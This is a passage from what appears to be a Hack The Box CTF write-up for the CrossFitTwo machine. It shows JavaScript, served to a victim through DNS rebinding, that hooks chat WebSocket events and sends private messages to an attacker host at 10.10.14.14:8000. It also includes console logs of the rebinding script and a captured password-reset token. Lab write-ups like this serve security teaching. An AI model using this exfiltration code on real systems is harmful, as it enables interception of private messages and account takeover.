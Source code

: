 ```javascript
	socket.on("participants", (data) => {
		var xhr = new XMLHttpRequest();
		xhr.open("GET", "http://10.10.14.14:8000/participants/" + JSON.stringify(data), true);
		xhr.send();
	});
	
	socket.on("new_user", (data) => {
		var xhr = new XMLHttpRequest();
		xhr.open("GET", "http://10.10.14.14:8000/new_user/" + JSON.stringify(data), true);
		xhr.send();
	});
	
	socket.on("private_recv", (data) => {
		var xhr = new XMLHttpRequest();
		xhr.open("GET", "http://10.10.14.14:8000/private_recv/" + JSON.stringify(data), true);
		xhr.send();
	});
	</script>
</html>'

?>
```

Meaning that when David hits the page ```password-reset.php``` (Using DNS rebind attack) page we will return him the HTML above that communicate with chat WebSocket and send us the received messages on port 8000.

Let's run the DNS rebinding again:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ bash rebindPass.sh 
ok
FakeDNS is running...

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--   100  4491 <div class="alert alert-success alert-dismissible fade show" role="alert">Reset link sent, please check your email.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button></div>
```

Now, After few minutes we will see on our Web server (port 80) the following:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/]
└──╼ $ sudo php -S 0.0.0.0:80
[sudo] password for user: 
[Sat Aug 14 21:00:54 2021] PHP 7.4.5 Development Server (http://0.0.0.0:80) started
[Sat Aug 14 21:02:19 2021] 10.10.10.232:7703 Accepted
[Sat Aug 14 21:02:19 2021] 10.10.10.232:7703 [200]: GET /password-reset.php?token=66c8f85d4e7e5d924329f65364c4c02872b8c095466fd1e49c3c5f1838cca03157573f6b37bcf0f1b3297d7be19357eb05c0e1bd7ac2e3ee2d5554e3825a3c37
```
